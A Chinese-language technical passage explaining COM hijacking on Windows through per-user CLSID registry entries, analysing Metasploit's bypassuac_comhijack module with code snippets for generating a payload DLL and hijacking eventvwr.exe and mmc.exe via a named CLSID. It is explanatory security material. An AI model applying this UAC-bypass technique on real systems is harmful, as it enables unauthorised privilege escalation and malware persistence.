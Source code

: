 当进程寻找COM组件时，首先会寻找：
`HKCU\Software\Classes\CLSID`

我们直接在CLSID下新建一个对象ID，就能够劫持某个进程或多个进程。

```
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID   
 	{CLSID}       
	InprocServer32          (Default) = path          
	ThreadingModel 	    = value
```


与DLL劫持原理相近，但是COM组件的劫持可以拓展很多东西，劫持的目标不一定是一个进程，劫持所需的文件不一定是一个DLL，它可以是一个.com文件、二进制PE文件、DLL文件，劫持的目标也可以是一个Windows API。

## 0x03 COM 组件劫持案例

`metasploit-framework/embedded/framework/modules/exploits/windows/local/bypassuac_comhijack.rb`

使用`bypassuac_comhijack`模块能够将属于Administrators组的普通用户提升至管理员权限。

下面我们分析一下代码：

首先它会检查payload和操作系统是否支持，然后检测是否是最高权限。

根据你配置的payload来生成一个DLL木马：

```ruby
payload = generate_payload_dll({:dll_exitprocess => true})
    commspec = expand_path('%COMSPEC%')
    dll_name = expand_path("%TEMP%\\#{rand_text_alpha(8)}.dll")
```

COM劫持配置项：

```ruby
@@hijack_points = [
    {
      name: 'Event Viewer',
      cmd_path: '%WINDIR%\System32\eventvwr.exe',
      class_ids: ['0A29FF9E-7F9C-4437-8B11-F424491E3931']
    },
    {
      name: 'Computer Managment',
      cmd_path: '%WINDIR%\System32\mmc.exe',
      cmd_args: 'CompMgmt.msc',
      class_ids: ['0A29FF9E-7F9C-4437-8B11-F424491E3931']
    }
  ]
```

该模块支持两种命令启动方式：

* %WINDIR%\System32\eventvwr.exe
* %WINDIR%\System32\mmc.exe CompMgmt.msc

劫持的CLSID相同：`0A29FF9E-7F9C-4437-8B11-F424491E3931`
